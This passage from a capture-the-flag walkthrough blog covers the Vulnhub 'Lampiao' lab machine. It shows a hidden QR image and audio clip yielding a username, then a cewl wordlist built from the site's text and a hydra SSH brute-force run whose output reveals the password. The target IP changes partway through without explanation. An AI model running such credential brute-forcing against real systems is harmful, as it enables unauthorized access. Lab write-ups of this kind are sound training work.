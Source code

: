 Now it's time to find these files. After trying different directories, looking for default Drupal upload directories, I've found it in the main directory of the website. 

{% highlight text %}
http://10.0.0.12:1898/qrc.png
{% endhighlight %}

![Qr code](/img/lampiao/qr.png){:class="img-responsive center-block"}

{% highlight text %}
Try harder! muahuahua
{% endhighlight %}

Luckily, we have another file called `audio.m4a`. Listening to it gives: 

{% highlight text %}
user tiago
{% endhighlight %}

Amazing, we have username! Now it's time to mess with the password. I could not find it anywhere in the web page, so here we can start with a `hydra`. As I did not want to run attack with whole `rockyou.txt` wordlist, I decided to check wiht some smaller ones, but with no luck. 

To the rescue came a trick with custom wordlists, learned from `Mr. Robot` machine from Vulnhub. Remember `cewl`. First node has lots of text, so let's pack it into a wordlist. 

{% highlight text %}
root@kali:~# cewl http://10.0.0.12:1898/?q=node/1 -w pass.txt
{% endhighlight %}

Now we can run `hydra`. 

{% highlight text %}
root@kali:~# hydra -l tiago -P pass.txt 192.168.1.112 -t 4 ssh
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-08-07 10:44:21
[DATA] max 4 tasks per 1 server, overall 4 tasks, 835 login tries (l:1/p:835), ~209 tries per task
[DATA] attacking ssh://192.168.1.112:22/
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 771 to do in 00:13h, 4 active
[22][ssh] host: 192.168.1.112   login: tiago   password: Virgulino
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-08-07 10:46:26
{% endhighlight %}
